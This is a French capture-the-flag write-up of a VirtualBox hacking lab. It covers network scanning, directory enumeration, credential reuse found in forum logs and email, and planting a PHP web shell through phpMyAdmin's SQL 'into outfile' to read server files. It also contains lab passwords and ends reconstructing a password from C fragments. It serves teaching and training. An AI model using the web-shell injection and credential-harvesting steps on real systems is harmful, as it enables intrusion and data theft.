




# Writeup numéro 1:

## Étape 0 - Lancement de la VM:


## Étape 1 - Trouver l'ip de la VM:

La première étape du challenge à été de connaitre l'ip de la vm.

Nous avons fait un `ifconfig` sur les macs de l'école pour connaitre l'ip du réseau crée par VirtualBox.

Dans le résultat du `ifconfig` une nouvelle interface est apparue elle se nomme `vboxnet0`:

```sh
vboxnet0: flags=8943<UP,BROADCAST,RUNNING,PROMISC,SIMPLEX,MULTICAST> mtu 1500
	ether 0a:00:27:00:00:00
	inet 192.168.56.1 netmask 0xffffff00 broadcast 192.168.56.255
```

L'interface `vboxnet0` est celle créée par VirtualBox, elle contient toutes les informations néssecaires pour trouver l'ip de la VM.

Nous savons à présent que l'addresse du réseau est `192.168.56.0/24`,
maintenant que nous avons cette adresse nous pouvons lister toutes les machines appartennants au réseau avec `nmap`

En tapant la commande `nmap 192.168.56.0-255`, nous obtenons ce résultat:

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-12 09:47 CET
Nmap scan report for 192.168.56.1
Host is up (0.00080s latency).
Not shown: 500 closed ports, 496 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
88/tcp   open  kerberos-sec
3283/tcp open  netassistant
5900/tcp open  vnc

Nmap scan report for 192.168.56.100
Host is up (0.00033s latency).
All 1000 scanned ports on 192.168.56.100 are closed

Nmap scan report for 192.168.56.101
Host is up (0.00076s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 256 IP addresses (3 hosts up) scanned in 5.43 seconds
```

Nous savons que l'ip `192.168.56.1` est celle de VirtualBox, donc l'ip de la VM est `192.168.56.101`.

Nous pouvons voir grâce à `nmap` que les ports `80/tcp` et `443/tcp` sont ouverts, un site doit donc être hébergé sur le serveur.

Nous pouvons passer à l'étape suivante, celle de trouver le site hébergé.

## Étape 2 - Trouver le-s site-s hébergé-s sur le serveur:

Pour cette étape, nous avons installé un outil nommé [dirb](https://github.com/v0re/dirb), cet outil permet de lister avec une wordlist les différentes urls pouvant exister sur une ip ou un nom de domaine.

Une fois l'outil installé, nous pouvons l'utiliser sur l'ip `192.168.56.101` avec la commande `./dirb https://192.168.56.101 wordlists/common.txt`

```sh
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Feb 12 10:09:12 2020
URL_BASE: https://192.168.56.101/
WORDLIST_FILES: wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.56.101/ ----
+ https://192.168.56.101/cgi-bin/ (CODE:403|SIZE:291)
==> DIRECTORY: https://192.168.56.101/forum/
==> DIRECTORY: https://192.168.56.101/phpmyadmin/
+ https://192.168.56.101/server-status (CODE:403|SIZE:296)
==> DIRECTORY: https://192.168.56.101/webmail/

[...]
```

Dans le resultat de la commande nous pouvons voir qu'il existe 3 urls différentes:

 * https://192.168.56.101/forum/

 * https://192.168.56.101/phpmyadmin/

 * https://192.168.56.101/webmail/

Nous pouvons donc nous rendre sur le [forum](https://192.168.56.101/forum/), pour voir si il y a des informations...

## Étape 3 - Le Forum:

Lors que nous arrivons sur le forum, nous pouvons voir qu'un-e certain-e `lmezard` à un problème de login:



Si nous allons inspecter le topic en question, nous tombont sur des logs ssh de la VM:

```sh
Probleme login ?
by lmezard, Thursday, October 08, 2015, 00:10 (1588 days ago)
edited by admin, Thursday, October 08, 2015, 00:17

Oct 5 08:44:40 BornToSecHackMe sshd[7482]: input_userauth_request: invalid user test [preauth]
Oct 5 08:44:40 BornToSecHackMe sshd[7482]: pam_unix(sshd:auth): check pass; user unknown
Oct 5 08:44:40 BornToSecHackMe sshd[7482]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com
Oct 5 08:44:42 BornToSecHackMe sshd[7482]: Failed password for invalid user test from 161.202.39.38 port 53781 ssh2
[...]
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from
161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
[...]
Oct 5 17:24:01 BornToSecHackMe CRON[550]: pam_unix(cron:session): session opened for user root by (uid=0)
Oct 5 17:51:01 BornToSecHackMe CRON[1739]: pam_unix(cron:session): session closed for user root
Oct 5 17:51:15 BornToSecHackMe sshd[1782]: Accepted password for admin from 62.210.32.157 port 56754 ssh2
Oct 5 17:51:15 BornToSecHackMe sshd[1782]: pam_unix(sshd:session): session opened for user admin by (uid=0)
```

En inspectant un peu plus les logs nous pouvons nous aperçevoir qu'il y a une ligne qui pourrait nous intéresser.

```sh
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from
```

Cet login resemble fortement à un mot de passe, nous pouvons donc essayer de le taper à différents endroits avec le login `lmezard` comme:

 * `ssh`

 * `ftp`

 * `forum`

 * `webmail`

 * `phpmyadmin`

Après avoir essayé de se connecter en `ssh` ou `ftp` sans fin, nous arrivons à nous connecter sur le [forum](https://192.168.56.101/forum/) avec les identifiants `lmezard - !q\]Ej?*5K5cy*AJ`.

Une fois connecté nous avons la liste des utilisateurs possible et la possibilité de modifier nos informations.





L'utilisateur `lmezard` ne peut pas faire grand chose de plus que cela, mais en nous rendant dans ses informations nous pouvons nous rendre compte que son addresse email est `laurie@borntosec.net` avec son email nous devrions avoir accès à son compte Webmail...

## Étape 4 - Webmail:

Maintenant nous connaissons l'email de `lmezard` qui est `laurie@borntosec.net`, nous pouvons donc essayer avec son mot de passe du forum.

Nous arrivons à nous connecter sur le [webmail](https://192.168.56.101/webmail/) avec succès lorsque nous rentrons les identifiants suivant `laurie@borntosec.net - !q\]Ej?*5K5cy*AJ`

Nous arrivons donc sur la boîte mail de `lmezard`, celle-ci contient 2 emails:



Un email qui pourrait être intéressant est celui dont l'object est `DB Access`, quand nous l'ouvrons elle contient des identifiants pour se connecter à la db.

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Vu que nous n'avons toujours pas accèss au serveur nous pouvons essayer les identifiants `root - Fg-'kKXBj87E:aJ$` sur phpmyadmin.

## Étape 5 - PhpMyAdmin:

Avec les identifiants trouvé dans le email de `lmezard` nous arrivons à nous connecter sur `phpmyadmin`.

Nous savons que le forum est develloppé en `php`, depuis la console `SQL` de PhpMyAdmin nous pouvons essayer d'injecter une nouvelle page php dans le forum.

En tapant cette commande `SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/templates_c/term.php"` dans la console sql, nous créeons un fichier nommé `term.php` dans le dossier `templates_c` du forum. La nouvelle page est accessible [ici](https://192.168.56.101/forum/templates_c/term.php).

La page que nous avons injecté, permet de recevoir des commandes dans l'url qui seront exécuté par la php sur le serveur.

Par exemple `192.168.56.101/forum/templates_c/term.php?cmd=pwd` nous donne le resultat suivant:

```
/var/www/forum/templates_c
```

Maintenant avec notre `backdoor` nous pouvons parcourir les dossiers sur le serveur.

En nous baladant dans les dossiers nous avons pu trouver dans le dossier `/home` un répertoire nommé `LOOKATME`, dans le quel il y a un fichier password.

```
https://192.168.56.101/forum/templates_c/term.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

https://192.168.56.101/forum/templates_c/term.php?cmd=ls%20/home/LOOKATME
password

https://192.168.56.101/forum/templates_c/term.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Nous venons de trouver de nouveaux identifiants `lmezard - G!@M6f4Eatau{sF"`

## Étape 6 - FTP:

Les nouveaux identifiants ne marchaient pas en ssh, mais le port `21/tcp` était ouvert lors de notre premier nmap.

Pour verifier que le port 21 est bien celui d'un service ftp nous pouvons ré-executer la commande nmap avec quelque paramètre en plus `nmap -sV 192.168.56.101`, cette commande nous donne le nom des services lier aux ports ouverts

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-12 14:12 CET
Nmap scan report for 192.168.56.101
Host is up (0.00032s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
```

Le service lier au port 21 est bien `vsftpd`, nous pouvons donc essayer de se connecter sur ce service avec les nouveaux identifiants trouvé dans l'étape précedente.

Pour se connecter au serveur ftp nous pouvons executer cette commande `ftp lmezard@192.168.56.101`:

```sh
Connected to 192.168.56.101.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50764|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get README
local: README remote: README
229 Entering Extended Passive Mode (|||49046|).
150 Opening BINARY mode data connection for README (96 bytes).
100% |******************************************************************************************************************************************************************************************************************|    96      732.42 KiB/s    00:00 ETA226 Transfer complete.
96 bytes received in 00:00 (252.01 KiB/s)
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||65455|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |******************************************************************************************************************************************************************************************************************|   790 KiB  156.96 MiB/s    00:00 ETA226 Transfer complete.
808960 bytes received in 00:00 (143.42 MiB/s)
ftp> exit
221 Goodbye.
```

Le `README` contenait ceci:

```
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

Le fichier `fun` était ilisible si nous fessions `cat fun`, nous avons donc deduis que le fichier `fun` était une `tarball`

```sh
#> mv fun fun.tar
#> tar -xf fun.tar
#> ls
README  ft_fun  fun.tar
```

Lorsque le `fun.tar` est décomprésser un nouveau dossier est apparu: `ft_fun`

Dans le dossier `ft_fun` se trouvais un jeu de piste parcemer en plusieurs fichiers

```
00M73.pcap 0ZGVW.pcap 257IO.pcap 30VL4.pcap [...] VJC98.pcap WZ33P.pcap Y1DYP.pcap ZD83L.pcap
```

Nous devions faire un grep de la fonction `getme` pour trouver tous les fichiers avec une fonction qui retournais une lettre du mot de passe.

```SHELL
#> grep  "getme" *
0T16C.pcap:char getme4() {
32O0M.pcap:char getme7() {
331ZU.pcap:char getme1() {
4KAOH.pcap:char getme5() {
91CD0.pcap:char getme6() {
B62N4.pcap:char getme3() {
BJPCP.pcap:char getme8() {
BJPCP.pcap:char getme9() {
BJPCP.pcap:char getme10() {
BJPCP.pcap:char getme11() {
BJPCP.pcap:char getme12()
BJPCP.pcap:	printf("%c",getme1());
BJPCP.pcap:	printf("%c",getme2());
BJPCP.pcap:	printf("%c",getme3());
BJPCP.pcap:	printf("%c",getme4());
BJPCP.pcap:	printf("%c",getme5());
BJPCP.pcap:	printf("%c",getme6());
BJPCP.pcap:	printf("%c",getme7());
BJPCP.pcap:	printf("%c",getme8());
BJPCP.pcap:	printf("%c",getme9());
BJPCP.pcap:	printf("%c",getme10());
BJPCP.pcap:	printf("%c",getme11());
BJPCP.pcap:	printf("%c",getme12());
G7Y8I.pcap:char getme2() {
```

Lorsque nous fessions un cat de `0T16C.pcap` la fonction n'était pas complète mais un commentaire était présent avec le numéro du fichier, il nous suffisait de faire un grep du fichier suivant pour avoir le reste de la fonction. Voici un exemple:

```SHELL
#> cat 0T16C.pcap
char getme4() {

//file115%
#> grep "//file116" *
7DT5Q.pcap://file116
#> cat 7DT5Q.pcap
	return 'a';

//file116%
#> grep "//file117" *
HEQ6R.pcap://file117
#> cat HEQ6R.pcap
}

//file117%
```

Avec ceci nous pouvons reconstituer le main qui affiche le mot de passe.

```#include <stdio.h>
char getme1() { return 'I'; }
char getme2() { return 'h'; }
char getme3() { return 'e'; }
char getme4() { return 'a'; }
char getme5() { return 'r'; }
char getme6() { return 't'; }
char getme7() { return 'p'; }
char getme8() { return 'w'; }
char getme9() { return 'n'; }
char getme10() { return 'a'; }
char getme11() { return 'g'; }
char getme12() { return 'e'; }
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```